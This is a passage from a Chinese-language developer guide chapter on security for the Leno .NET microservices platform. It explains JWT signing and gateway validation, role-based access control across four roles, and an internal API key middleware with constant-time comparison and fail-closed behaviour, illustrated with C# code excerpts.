




# 第 7 章 安全与认证

## 学习目标

读完本章你将：

- 理解 Leno 平台基于 JWT（JSON Web Token，紧凑的自包含令牌格式）的无状态认证体系，掌握 `JwtTokenGenerator` 如何构造 Claims（声明，令牌中的键值对）、签发 HS256 签名令牌，以及 API Gateway 如何在网关层完成本地验签并把用户上下文以 `X-User-Id`/`X-Role`/`X-Shop-Id` 头注入下游 BC
- 熟练运用 RBAC（基于角色的访问控制）模型，掌握 Buyer/Seller/Operator/Admin 四类角色在 11 个 BC 中的权限边界，能在 Controller 上正确使用 `[Authorize(Roles = "...")]` 完成端点级授权，并理解资源级授权通过 `shop_id` Claim 在 Handler 内校验的实践
- 掌握内部 API（服务间调用接口）的 `X-Internal-Key` 头鉴权机制，理解 `InternalApiKeyMiddleware` 的路径前缀匹配、`FixedTimeEquals` 防计时侧信道、Development 降级与 fail-closed 策略，能列出 12 条 Internal API 路由清单
- 理解 gRPC 鉴权与 HTTP 鉴权的一致性设计，掌握 `GrpcInternalKeyInterceptor` 在服务端拦截 metadata 中 `x-internal-key` 头的校验逻辑，以及客户端通过 `AntiCorruptionOptions.TargetInternalApiKeys` 注入 metadata 的写法
- 掌握 Leno 4 层配置优先级（环境变量 > Consul KV > appsettings.{Env}.json > appsettings.json）与 `ValidateSensitiveConfig` 启动校验机制，能正确通过环境变量与 Consul KV 注入支付密钥、JWT SecretKey、InternalApiKey 等 13 类敏感配置

## 适用读者

开发（需要承担 BC 鉴权、JWT 集成、内部 API 保护、敏感配置注入等任务的 .NET 工程师）；运维（需要部署时配置环境变量、Consul KV 敏感配置、校验启动期 fail-closed 行为的运维工程师）

## 术语速查

本章将遇到的术语：

| 术语 | 简释 |
|---|---|
| JWT | JSON Web Token，一种紧凑的、URL 安全的、自包含的令牌格式，由 Header、Payload、Signature 三段以 `.` 连接组成，常用于无状态身份认证 |
| OAuth2 | 开放授权协议（Open Authorization 2.0），第三方授权标准，允许用户在不暴露密码的情况下让第三方应用访问其在另一服务上的资源，Leno 支持微信与 Apple OAuth2 登录 |
| RBAC | Role-Based Access Control，基于角色的访问控制，把权限授予角色而非单个用户，用户通过所属角色获得权限 |
| Claims | 声明，令牌中以键值对形式携带的用户信息断言（如 `Sub`=用户ID、`role`=角色），由签发方签名背书 |
| Bearer Token | 持票人令牌，一种 HTTP 认证方案，客户端在 `Authorization` 头携带 `Bearer <token>`，服务端凭 token 即可识别身份，无需附加其他凭据 |
| 环境变量 | Operating System Environment Variable，操作系统级别的键值对配置，常用于注入密钥、连接串等敏感参数，避免写入代码或配置文件 |
| 配置中心 | Configuration Center，集中管理多服务配置的组件，Leno 采用 Consul KV 作为远程配置中心，支持热重载 |
| CSRF | Cross-Site Request Forgery，跨站请求伪造攻击，诱导已登录用户在非自愿情况下发起请求执行敏感操作 |
| XSS | Cross-Site Scripting，跨站脚本攻击，向网页注入恶意脚本窃取用户数据或劫持会话 |
| SQL 注入 | SQL Injection，通过把 SQL 命令插入到输入参数中，让后端错误拼接 SQL 后执行非预期查询的攻击手段 |
| 计时侧信道 | Timing Side-Channel，通过测量比较操作的耗时差异推断密钥内容的攻击方式，Leno 用 `FixedTimeEquals` 消除耗时差 |
| fail-closed | 故障关闭策略，安全机制在配置缺失或异常时拒绝请求/启动，而非放行（fail-open），Leno 在生产环境对 InternalApiKey 缺失采用此策略 |

---

## 7.1 认证体系

第 6 章我们看了数据存储与缓存层，但所有数据访问的"前置门"——"这个请求是谁发起的？"——还悬而未决。本章把镜头放在安全与认证，看 Leno 如何在 11 个 BC 之间建立统一的身份边界。

### 认证 vs 授权

**认证（Authentication，简称 AuthN）** 回答"你是谁"——验证用户身份是否合法，例如校验账号密码、OAuth2 回调、JWT 验签。**授权（Authorization，简称 AuthZ）** 回答"你能做什么"——在已知身份的前提下，判断该用户是否有权访问目标资源，例如 Buyer 只能操作自己的购物车、Operator 才能管理通知模板。两者解耦：认证产生身份（Claims），授权消费身份做决策。Leno 在 API Gateway 完成统一认证，授权下沉到各 BC 的 `[Authorize]` 特性。

### JWT 概述

**JWT（JSON Web Token）** 是一种紧凑的、URL 安全的、自包含的令牌格式。"自包含"意味着令牌本身携带用户身份信息（Claims），服务端无需查库即可识别用户，适合微服务无状态认证场景。Leno 选用 JWT 而非 Session，是因为 11 个 BC 共享一个签发密钥即可各自本地验签，避免引入分布式 Session 存储。

JWT 由三段以 `.` 连接的 Base64Url 字符串组成：



- **Header**：声明签名算法（HS256）与令牌类型（JWT）
- **Payload**：携带 Claims（如 `Sub` 用户ID、`Jti` 令牌唯一ID、`role` 角色、`shop_id` 店铺ID、`exp` 过期时间），任何人都能解码，**禁止**放敏感明文
- **Signature**：用 SecretKey 对 `base64(Header).base64(Payload)` 做 HMACSHA256，防篡改；任何 Payload 字段被改后签名校验失败

### Leno JWT 无状态认证流程

Leno 的认证流程把"签发"与"验签"分离：签发集中在 UserAuth BC，验签下沉到 API Gateway 本地完成，下游 BC 不再重复验签，只消费网关注入的 `X-User-Id`/`X-Role`/`X-Shop-Id` 头。



### JwtTokenGenerator 代码示例

JWT 的签发逻辑封装在 `JwtTokenGenerator`，位于共享内核 `Leno.Infrastructure` 中，UserAuth BC 与 API Gateway 共用同一份实现。`JwtOptions` 配置类定义签发参数，默认访问令牌有效期 120 分钟、刷新令牌有效期 7 天：

```csharp
// [JwtTokenGenerator.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/BuildingBlocks/Leno.Infrastructure/Auth/JwtTokenGenerator.cs#L12-L25)

public sealed class JwtOptions
{
    public string Issuer { get; set; } = default!;
    public string Audience { get; set; } = default!;
    public string SecretKey { get; set; } = default!;

    /// <summary>访问令牌有效期（分钟），默认 120 分钟。</summary>
    public int AccessTokenExpiryMinutes { get; set; } = 120;

    /// <summary>刷新令牌有效期（天），默认 7 天。</summary>
    public int RefreshTokenExpiryDays { get; set; } = 7;
}
```

签发访问令牌的核心方法 `GenerateAccessToken`，严格按 Spec 4.1 JWT Claims 规范填充 `Sub`/`Jti`/`NameIdentifier`/`Role`/`role` 五个固定 Claim，并在 `shopId` 非空时追加 `shop_id` Claim：

```csharp
// [JwtTokenGenerator.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/BuildingBlocks/Leno.Infrastructure/Auth/JwtTokenGenerator.cs#L47-L96)

public string GenerateAccessToken(Guid userId, string role, Guid? shopId, IDictionary<string, string>? additionalClaims = null)
{
    if (userId == Guid.Empty)
    {
        throw new ArgumentException("UserId 不可为空", nameof(userId));
    }

    if (string.IsNullOrWhiteSpace(role))
    {
        throw new ArgumentException("Role 不可为空", nameof(role));
    }

    var claims = new List<Claim>
    {
        new(JwtRegisteredClaimNames.Sub, userId.ToString()),
        new(JwtRegisteredClaimNames.Jti, Guid.NewGuid().ToString()),
        new(ClaimTypes.NameIdentifier, userId.ToString()),
        new(ClaimTypes.Role, role),
        new("role", role)
    };

    if (shopId.HasValue && shopId.Value != Guid.Empty)
    {
        claims.Add(new Claim(ShopIdClaimType, shopId.Value.ToString()));
    }

    if (additionalClaims is not null)
    {
        foreach (var pair in additionalClaims)
        {
            if (!string.IsNullOrEmpty(pair.Key))
            {
                claims.Add(new Claim(pair.Key, pair.Value ?? string.Empty));
            }
        }
    }

    var key = new SymmetricSecurityKey(Encoding.UTF8.GetBytes(_options.SecretKey));
    var credentials = new SigningCredentials(key, SecurityAlgorithms.HmacSha256);

    var token = new JwtSecurityToken(
        issuer: _options.Issuer,
        audience: _options.Audience,
        claims: claims,
        notBefore: DateTime.UtcNow,
        expires: DateTime.UtcNow.AddMinutes(_options.AccessTokenExpiryMinutes),
        signingCredentials: credentials);

    return _tokenHandler.WriteToken(token);
}
```

注意几个关键点：

- **双 Role Claim 冗余设计**：同时写入 `ClaimTypes.Role`（标准 Claim）与 `"role"`（短名 Claim），兼容不同验签库的角色解析方式——`ClaimTypes.Role` 供 ASP.NET Core JwtBearer 中间件使用，`"role"` 供网关 `UserContextTransformProvider` 等自定义代码读取
- **`shop_id` 仅非空时添加**：Buyer 没有 shop_id，避免空值污染 Payload；Seller/Operator 携带 `shop_id` 用于资源级授权
- **`Jti` 唯一标识**：每个令牌一个 GUID，作为 JWT 黑名单（见 7.7 节）的 key，支持登出主动吊销
- **HS256 对称签名**：签发与验签用同一 SecretKey，11 个 BC 与网关共享，省去 RS256 公私钥分发复杂度；代价是任何持有 SecretKey 的服务都能签发，所以 SecretKey 必须严格保密（见 7.5 节）

刷新令牌不使用 JWT，而是用 `GenerateRefreshToken()` 生成 32 字节随机串的 Base64Url 编码（urlsafe），与访问令牌独立存储于 UserAuth 的 `IRefreshTokenStore`，避免 JWT 难以撤销的问题。

### JWT 优势

Leno 选择 JWT 的核心动机：

1. **无状态**：网关与各 BC 各自本地验签，无需查询集中式 Session 存储，水平扩展友好
2. **跨服务一致**：一份 SecretKey + 同一 `JwtTokenGenerator.BuildValidationParameters()` 校验参数，11 个 BC 验签行为完全一致
3. **自携带上下文**：`Sub`/`role`/`shop_id` 直接从 Payload 读取，省去每次请求查用户表的 IO
4. **可吊销**：配合 7.7 节 JWT 黑名单，可在令牌未过期前主动吊销（登出/封号场景）
5. **标准化**：RFC 7519 标准协议，生态成熟，`Microsoft.IdentityModel.Tokens.Jwt` 提供完整实现

---

## 7.2 授权体系

认证回答"你是谁"，授权回答"你能做什么"。Leno 采用 **RBAC（Role-Based Access Control，基于角色的访问控制）**：把权限授予角色而非单个用户，用户通过所属角色获得权限。RBAC 的核心收益是把"用户—权限"的 N×M 关系简化为"用户—角色—权限"的两次 1:N 查找，运维与代码都更易维护。

### 4 类角色

Leno 平台定义 4 类内置角色，覆盖买家、卖家、平台运营、平台管理员四类身份：

| 角色 | 中文名 | 典型场景 | 是否携带 shop_id |
|---|---|---|---|
| `Buyer` | 买家 | 注册用户，浏览商品、下单、付款、评价 | 否 |
| `Seller` | 卖家 | 入驻商家，管理自家商品、订单、店铺 | 是（自家店铺ID） |
| `Operator` | 运营 | 平台运营人员，审核商品、处理售后、管理通知模板 | 否 |
| `Admin` | 管理员 | 平台最高权限，管理用户、角色、系统配置 | 否 |

> 命名说明：仓库代码中实际角色名首字母大写（`Buyer`/`Seller`/`Operator`/`Admin`），与 `[Authorize(Roles = "Buyer")]` 严格一致。设计文档有时以小写 `buyer/seller/operation/admin` 指代，但代码层以大写为准。

### 角色权限矩阵（4 角色 × 11 BC）

下表展示 4 类角色在 11 个 BC 中的操作权限，"读"指查询类操作，"写"指增删改类操作，"—"表示无权限，"全部"表示读写管理全权：

| BC | Buyer | Seller | Operator | Admin |
|---|---|---|---|---|
| Product（商品） | 读 | 读+写（自家商品） | 读+写 | 全部 |
| Promotion（促销） | 领券/查询活动 | 读 | 读+写 | 全部 |
| Cart（购物车） | 读写（自家） | — | 读 | 全部 |
| PointsMembership（积分） | 查积分（自家） | 读 | 读+写 | 全部 |
| UserAuth（用户） | 注册/登录/改密（自家） | 同 Buyer | 读+管理用户 | 全部 |
| Order（订单） | 下单/查询（自家） | 处理（自家店铺订单） | 读+写 | 全部 |
| Payment（支付） | 支付（自家） | 查看（自家店铺） | 读+写 | 全部 |
| SellerShop（店铺） | — | 管理（自家店铺） | 读+写 | 全部 |
| ReviewAfterSales（评价售后） | 评价/申请售后（自家） | 回复（自家店铺） | 读+写 | 全部 |
| Notification（通知） | 收通知+偏好（自家） | 收通知+偏好（自家） | 模板+记录+限流 | 全部 |
| SystemAdmin（系统管理） | — | — | 管理 | 全部 |

矩阵的设计原则：

1. **数据所有权优先**：Buyer/Seller 的"自家"限定通过 `shop_id`/`userId` Claim 在 Handler 内校验，Controller 层只做角色门禁
2. **Operator 横向赋能**：跨 BC 的运营操作（审核、处理售后、管理模板）统一归 Operator，避免给单 BC 临时赋权
3. **Admin 兜底**：Admin 拥有所有 BC 全部权限，仅授予少数平台管理员，操作审计通过 SystemAdmin 的 `AuditLog` 聚合记录

### Claims 提取代码示例

`JwtTokenGenerator` 提供三个静态方法从 `ClaimsPrincipal` 提取关键字段，供 BC 在 Handler 内做资源级校验：

```csharp
// [JwtTokenGenerator.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/BuildingBlocks/Leno.Infrastructure/Auth/JwtTokenGenerator.cs#L163-L180)

/// <summary>从 ClaimsPrincipal 提取 UserId。</summary>
public static Guid? GetUserId(ClaimsPrincipal? principal)
{
    var claim = principal?.FindFirst(ClaimTypes.NameIdentifier)?.Value
                ?? principal?.FindFirst(JwtRegisteredClaimNames.Sub)?.Value;
    return claim is not null && Guid.TryParse(claim, out var id) ? id : null;
}

/// <summary>从 ClaimsPrincipal 提取 Role。</summary>
public static string? GetRole(ClaimsPrincipal? principal)
    => principal?.FindFirst(ClaimTypes.Role)?.Value ?? principal?.FindFirst("role")?.Value;

/// <summary>从 ClaimsPrincipal 提取 ShopId。</summary>
public static Guid? GetShopId(ClaimsPrincipal? principal)
{
    var claim = principal?.FindFirst(ShopIdClaimType)?.Value;
    return claim is not null && Guid.TryParse(claim, out var id) ? id : null;
}
```

`GetUserId` 优先读 `ClaimTypes.NameIdentifier`（兼容 ASP.NET Core 标准 Claim），fallback 到 `Sub`（JWT 标准 Claim），保证无论令牌来自哪个签发路径都能解析。`GetRole` 同样双路读取 `ClaimTypes.Role` 与 `"role"`，与 7.1 节签发时的双 Claim 冗余设计对应。

### 网关 JWT 本地验签机制

API Gateway 在 `Program.cs` 中无条件注册 JWT 服务，验签参数由 `JwtTokenGenerator.BuildValidationParameters()` 构造，确保与 UserAuth BC 签发参数完全一致：

```csharp
// [Program.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/ApiGateway/Leno.ApiGateway/Program.cs#L46-L68)

builder.Services.Configure<JwtOptions>(builder.Configuration.GetSection("Jwt"));
builder.Services.AddSingleton<JwtTokenGenerator>();

builder.Services.AddAuthentication(JwtBearerDefaults.AuthenticationScheme)
    .AddJwtBearer();

builder.Services.AddOptions<JwtBearerOptions>(JwtBearerDefaults.AuthenticationScheme)
    .Configure<JwtTokenGenerator>((options, generator) =>
    {
        options.TokenValidationParameters = generator.BuildValidationParameters();
        options.Events = new JwtBearerEvents
        {
            OnAuthenticationFailed = ctx =>
            {
                ctx.Response.StatusCode = 401;
                return Task.CompletedTask;
            }
        };
    });
```

`BuildValidationParameters()` 开启全部 5 项校验：

```csharp
// [JwtTokenGenerator.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/BuildingBlocks/Leno.Infrastructure/Auth/JwtTokenGenerator.cs#L129-L145)

public TokenValidationParameters BuildValidationParameters()
{
    var key = new SymmetricSecurityKey(Encoding.UTF8.GetBytes(_options.SecretKey));
    return new TokenValidationParameters
    {
        ValidateIssuer = true,
        ValidIssuer = _options.Issuer,
        ValidateAudience = true,
        ValidAudience = _options.Audience,
        ValidateLifetime = true,
        ValidateIssuerSigningKey = true,
        IssuerSigningKey = key,
        ClockSkew = TimeSpan.FromMinutes(1),
        RoleClaimType = ClaimTypes.Role,
        NameClaimType = ClaimTypes.NameIdentifier
    };
}
```

- `ValidateIssuer`/`ValidateAudience`：校验签发方与接收方，防跨域令牌滥用
- `ValidateLifetime`：校验 `exp`/`nbf`，过期令牌拒绝
- `ValidateIssuerSigningKey`：校验 HS256 签名，防篡改
- `ClockSkew = 1 分钟`：允许 1 分钟时钟偏差，避免分布式时钟漂移导致误判

验签通过后，`UserContextTransformProvider` 把 Claims 转为下游头注入：

```csharp
// [UserContextTransformProvider.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/ApiGateway/Leno.ApiGateway/Transforms/UserContextTransformProvider.cs#L51-L76)

internal static void ApplyUserContextHeaders(HttpContext httpContext, HttpRequestMessage proxyRequest)
{
    var user = httpContext.User;
    var userId = user.FindFirst(ClaimSub)?.Value;
    var role = user.FindFirst(ClaimRole)?.Value;
    var shopId = user.FindFirst(ClaimShopId)?.Value;

    if (!string.IsNullOrEmpty(userId))
    {
        proxyRequest.Headers.TryAddWithoutValidation(XUserId, userId);
    }
    if (!string.IsNullOrEmpty(role))
    {
        proxyRequest.Headers.TryAddWithoutValidation(XRole, role);
    }
    if (!string.IsNullOrEmpty(shopId))
    {
        proxyRequest.Headers.TryAddWithoutValidation(XShopId, shopId);
    }
    proxyRequest.Headers.TryAddWithoutValidation(XInternalCall, "true");
}
```

`X-Internal-Call: true` 标记请求来自网关，下游 BC 可通过 `GatewayAuthHandler` 选项要求此头存在，防止绕过网关直连 BC。响应阶段 `RemoveInternalHeaders` 移除 `X-Internal-Call` 头，防止内部标记泄露给客户端。

### 资源级授权

Controller 层的 `[Authorize(Roles = "...")]` 只能做角色门禁（"你是不是 Seller"），无法判断"这个订单是不是你家的"。资源级授权在 Handler 内通过 `shop_id` Claim 校验：

```csharp
// [ProductsController.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/Services/Product/Leno.Product.Api/Controllers/ProductsController.cs#L14-L127) （示意片段）

[Authorize(Roles = "Seller")]
public class ProductsController : ControllerBase
{
    [HttpPut("{productId:guid}")]
    public async Task<IActionResult> UpdateAsync(Guid productId, [FromBody] UpdateProductDto dto, CancellationToken ct)
    {
        // 资源级授权：校验待修改商品是否属于当前 Seller 的店铺
        if (string.Equals(CurrentUser.Role, "Seller", StringComparison.OrdinalIgnoreCase))
        {
            var shopId = CurrentUser.ShopId;
            var product = await _appService.GetAsync(productId, ct);
            if (product.ShopId != shopId)
            {
                return Forbid();  // 403 越权
            }
        }
        await _appService.UpdateAsync(productId, dto, ct);
        return Ok();
    }
}
```

`CurrentUser` 通过 `GatewayAuthHandler` 从 `X-User-Id`/`X-Role`/`X-Shop-Id` 头构造，无需 BC 重新解析 JWT。资源级授权的核心模式：**先 `[Authorize(Roles = ...)]` 拦截非授权角色，再在 Handler 内用 `shop_id` Claim 比对资源的 `ShopId` 字段**。设计文档把这一模式抽象为 `[Authorize(Policy = "ShopOwner")]` 策略，但当前代码库尚未封装成统一 Policy，由各 BC 在 Handler 内显式校验。

下游 BC 通过 `GatewayAuthHandler` 从网关注入的头构造 `ClaimsPrincipal`：

```csharp
// [GatewayAuthHandler.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/BuildingBlocks/Leno.Infrastructure/Auth/GatewayAuthHandler.cs#L21-L58)

protected override Task<AuthenticateResult> HandleAuthenticateAsync()
{
    var userId = Request.Headers["X-User-Id"].FirstOrDefault();
    if (string.IsNullOrEmpty(userId))
    {
        return Task.FromResult(AuthenticateResult.NoResult());
    }

    var role = Request.Headers["X-Role"].FirstOrDefault() ?? string.Empty;
    var shopId = Request.Headers["X-Shop-Id"].FirstOrDefault();

    var claims = new List<Claim>
    {
        new(JwtRegisteredClaimNames.Sub, userId),
        new(ClaimTypes.NameIdentifier, userId),
        new(ClaimTypes.Role, role)
    };
    if (!string.IsNullOrEmpty(shopId))
    {
        claims.Add(new Claim(JwtTokenGenerator.ShopIdClaimType, shopId));
    }

    var identity = new ClaimsIdentity(claims, "GatewayHeader");
    var principal = new ClaimsPrincipal(identity);
    var ticket = new AuthenticationTicket(principal, "GatewayHeader");
    return Task.FromResult(AuthenticateResult.Success(ticket));
}
```

注意 `GatewayAuthHandler` 仅在后端服务容器内网部署时使用，`X-User-Id` 等头由网关注入，外部客户端无法直接访问 BC（网络层隔离）。

---

## 7.3 内部 API 鉴权

第 5 章介绍了跨 BC 通信的两种模式：集成事件（异步）与 Internal API（同步）。**Internal API（内部 API）** 指服务间同步调用的 HTTP 接口，仅暴露给其他 BC，不对外部客户端开放。Internal API 是订单履约的核心依赖——例如 Order BC 下单时需要调用 Product BC 的 `/internal/v1/products/skus/{skuId}` 查询 SKU 详情、调用 Promotion BC 的 `/internal/v1/promotions/calculate` 计算优惠。这些接口一旦被外部绕过网关直连调用，会暴露内部业务逻辑与数据，因此必须有独立的鉴权机制。

### X-Internal-Key 头鉴权流程

Internal API 鉴权采用共享密钥 + 请求头模式，3 步流转：



1. **从 Consul KV 读取**：每个 BC 启动期通过 `AddLenoConsulConfig` 从 Consul KV `leno/security/internal-key/{bc}` 拉取本 BC 的 InternalApiKey，绑定到 `InternalApiKeyOptions.ApiKey`
2. **请求头携带**：调用方 BC 在发起 HTTP 请求时，通过 `HttpClient` 默认请求头或防腐层 `DelegatingHandler` 注入 `X-Internal-Key: <key>`
3. **被调用方校验**：被调用方 BC 的 `InternalApiKeyMiddleware` 拦截 `/api/v1/internal/*` 前缀路由，用 `FixedTimeEquals` 校验 `X-Internal-Key` 头

### 11 BC 独立 InternalApiKey 设计动机

Leno M5.2 阶段把原本共享的 InternalApiKey 拆分为 11 BC 各自独立的 key，设计动机：

1. **爆炸半径控制**：单一共享 key 一旦泄露，攻击者可冒充任意 BC 调用所有内部 API；独立 key 泄露只影响单个 BC
2. **调用方身份可追溯**：被调用方通过 key 反查调用方 BC，便于审计与限流；共享 key 无法区分调用方
3. **轮换成本可控**：单 BC key 轮换只需协调该 BC 的调用方；共享 key 轮换需协调 11 个 BC 同时切换
4. **故障隔离**：单 BC key 被吊销（如 BC 被入侵）不影响其他 BC 间通信

兼容期允许 BC 仍使用 `Security:InternalApiKey:Shared` 共享 key，但启动校验会输出 warning 提示尽快迁移（见 7.5 节 `ValidateSensitiveConfig`）。

### InternalApiKeyMiddleware 完整代码

`InternalApiKeyMiddleware` 是 Leno 内部 API 鉴权的核心组件，位于共享内核，所有 BC 通过 `UseLenoPipeline()` 一站式注册：

```csharp
// [InternalApiKeyMiddleware.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/BuildingBlocks/Leno.Infrastructure/Middleware/InternalApiKeyMiddleware.cs#L25-L116)

public sealed class InternalApiKeyMiddleware
{
    private readonly RequestDelegate _next;
    private readonly ILogger<InternalApiKeyMiddleware> _logger;
    private readonly InternalApiKeyOptions _options;
    private static readonly JsonSerializerOptions JsonOptions = new(JsonSerializerDefaults.Web);

    public InternalApiKeyMiddleware(
        RequestDelegate next,
        ILogger<InternalApiKeyMiddleware> logger,
        IOptions<InternalApiKeyOptions> options)
    {
        _next = next;
        _logger = logger;
        _options = options.Value;
    }

    public async Task InvokeAsync(HttpContext context, IHostEnvironment hostEnvironment)
    {
        var path = context.Request.Path.Value ?? string.Empty;
        var prefix = NormalizePrefix(_options.RoutePrefix);

        if (!IsInternalPath(path, prefix))
        {
            await _next(context);
            return;
        }

        if (string.IsNullOrEmpty(_options.ApiKey))
        {
            if (hostEnvironment.IsDevelopment())
            {
                _logger.LogWarning("内部鉴权密钥未配置，开发环境跳过校验 Path={Path}", path);
                await _next(context);
                return;
            }

            _logger.LogCritical("生产环境未配置 InternalAuth:ApiKey，拒绝请求 Path={Path}", path);
            await WriteJsonAsync(context.Response, StatusCodes.Status500InternalServerError, "内部服务鉴权未配置");
            return;
        }

        if (!context.Request.Headers.TryGetValue("X-Internal-Key", out var providedKey) ||
            !FixedTimeEqualsKey(providedKey, _options.ApiKey))
        {
            _logger.LogWarning("内部鉴权失败 Path={Path}", path);
            await WriteJsonAsync(context.Response, StatusCodes.Status401Unauthorized, "内部服务鉴权失败");
            return;
        }

        await _next(context);
    }

    private static string NormalizePrefix(string routePrefix)
    {
        var trimmed = (routePrefix ?? string.Empty).Trim('/');
        return trimmed.Length == 0 ? string.Empty : "/" + trimmed;
    }

    private static bool IsInternalPath(string path, string prefix)
    {
        if (prefix.Length == 0)
        {
            return false;
        }

        return path.Equals(prefix, StringComparison.OrdinalIgnoreCase) ||
               path.StartsWith(prefix + "/", StringComparison.OrdinalIgnoreCase);
    }

    private static bool FixedTimeEqualsKey(string? provided, string expected)
    {
        if (string.IsNullOrEmpty(provided))
        {
            return false;
        }

        var providedBytes = Encoding.UTF8.GetBytes(provided);
        var expectedBytes = Encoding.UTF8.GetBytes(expected);
        return CryptographicOperations.FixedTimeEquals(providedBytes, expectedBytes);
    }

    private static async Task WriteJsonAsync(HttpResponse response, int statusCode, string message)
    {
        response.Clear();
        response.StatusCode = statusCode;
        response.ContentType = "application/json; charset=utf-8";
        var apiResponse = ApiResponse.Fail(statusCode, message);
        var json = JsonSerializer.Serialize(apiResponse, apiResponse.GetType(), JsonOptions);
        await response.WriteAsync(json);
    }
}
```

关键设计要点：

